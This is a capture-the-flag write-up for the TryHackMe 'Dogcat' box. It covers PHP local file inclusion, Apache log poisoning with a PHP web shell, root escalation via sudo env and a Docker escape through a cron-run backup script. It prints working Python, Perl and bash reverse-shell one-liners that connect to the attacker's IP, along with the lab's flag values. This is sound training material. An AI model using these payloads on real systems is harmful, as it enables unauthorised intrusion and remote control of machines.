## Dogcat Writeup

    Box IP Addresses:
    10.10.134.19
    10.10.90.100

1. nmap

    kali@kali-[10.8.82.167]:~/labs/tryhackme$ nmap -sT -sC -sV -oA nmap-initial 10.10.134.19
    [...]
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
    |   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
    |_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)

    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: dogcat
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

2. Visiting the website

Contains 2 buttons, clicking on them shows either a random picture of a dog, or a cat.

Trying to perform directory traversal shows a message:

"Sorry, only dogs or cats are allowed."



Source:



Shows we can use 2 php commands, ?view=dog, or ?view=cat.

Typing in dogs%00 we get:

include_path='.:/usr/local/lib/php'

3. Gobuster

    kali@kali-[10.8.82.167]:~/labs/tryhackme$ gobuster dir -u http://10.10.134.19/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

PHP File Inclusion

https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter

We can see through typing that the url has to have the words "dog" or "cat" inside it. Its wrapped in an include() function, and .php is added to the end of the text.



We know where index.php is located, so lets use php://filter like so:

http://10.10.134.19/?view=php://filter/convert.base64-encode/resource=./dog/../.././../../../var/www/html/index

This is just a simple directory traversal, and since we know that the .php extension is added onto the end, we don't need to type that into the URL.

Output: docs/index-base64.php

Since its in base64, we can decode using:

    kali@kali-[10.8.82.167]:~/labs/tryhackme/dogcat/docs$ base64 -d index-base64.php > index.php

Output: docs/index.php

Let's take a look at the code:

    1    <?php
    2        function containsStr($str, $substr) {
    3            return strpos($str, $substr) !== false;
    4        }
    5        
    6        $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    7            
    8            if(isset($_GET['view'])) {
    9                
    10               if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
    11                   echo 'Here you go!';
    12                   include $_GET['view'] . $ext;
    13               }
    14               else {
    15                   echo 'Sorry, only dogs or cats are allowed.';
    16               }
    17           }
    18   ?>

We can see:

- If the "ext" parameter does not exist in the URL, then put in ".php" (line 6).

- If the "view" parameter is set in the URL, then (line 8):

    - If The view contains the substring "dog" or "cat" (line 10), echo 'Here you go!' (line 11) and include dog.php or cat.php (line 12).

    - Otherwise, echo 'Sorry, only dogs or cats are allowed.' (line 15). 

So now we can pull, e.g. /etc/passwd like so:

http://10.10.134.19/?view=php://filter/convert.base64-encode/resource=./dog/../.././../../../etc/passwd&ext

Output: passwd-base64.txt

and we can decode as follows:

    base64 -d passwd-base64.txt > passwd.txt

There are no obvious candidates in there, so next step would be to try and get a reverse shell on there.

https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1

We're going to add the following payload, to the following log file in order to run commands:

Payload: <?php system($_GET['c']); ?>
LogFile: /var/log/apache2/access.log

1. Send GET request using BurpSuite (Put it in the User-Agent field):



2. http://10.10.90.100/?view=php://filter/resource=./dog/../.././../../../var/log/apache2/access.log?cmd=whoami&ext



Performing ls, we can see: 

that the first flag is flag.php, in this directory.



flag1.php : <?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>

Lets upload a php reverse shell:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.82.167",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Didn't work. Let's find out what packages are installed:



Perl is installed, let's try a perl reverse shell:

perl -e 'use Socket;$i="10.8.82.167";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'



and it works!

Navigating, we can see wget, and python are not installed on this machine.



Flag2: THM{LF1_t0_RC3_aec3fb}



Decided to use rlwrap so I can use the arrow keys, have command history as well.

Used curl to download linpeas.sh onto the machine:

curl http://10.8.82.167/linpeas.sh --output linpeas.sh

and then ran md5sum linpeas.sh to ensure it was the same file.

Ran linpeas, found this:

[...]
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands             
Matching Defaults entries for www-data on 4740acc06995:                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 4740acc06995:
    (root) NOPASSWD: /usr/bin/env
[...]

So www-data can run /usr/bin/env as root, without password.

According to wikipedia:

env is a shell command for Unix and Unix-like operating systems. It is used to either print a list of environment variables or run another utility in an altered environment without having to modify the currently existing environment.

So we could run sudo env -i /bin/bash, lets try that out:



and we have a root shell!

Flag3: THM{D1ff3r3nt_3nv1ronments_874112}

Found by navigating into the root folder.



Flag 4 is outside this docker container:

In /opt/backup we can see 2 files:

Extracting the backup.tar file gives us that "root" folder, which contains a bunch of info + files (basically creating the box):



We can see from the dates of the first that the archive file is recently created, whereas the backup script is not. It seems to be updated every minute, as seen from the screenshot below, so we can echo a bash reverse shell into the backup.sh script:



echo "/bin/bash -c 'bash -i >& /dev/tcp/10.8.82.167/5555 0>&1'" >> backup.sh

And we wait on our nc listener:



And we get a shell!

HM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}

Things I messed up on:

Final flag -- needed a hint, needed to look around a lot more to find the /opt/backup folder.

Getting the initial php file &ext bit, should have looked to try and get the index file first.

Things I learnt:

PHP local file inclusion
PHP Remote Code Execution through Apache Access Logs
PHP syntax "?>" instead of ">>", and understanding of PHP.
Curl download files
Perl reverse shell.
Perl shell execution
env command + SUID privesc through that.
BurpSuite Repeater
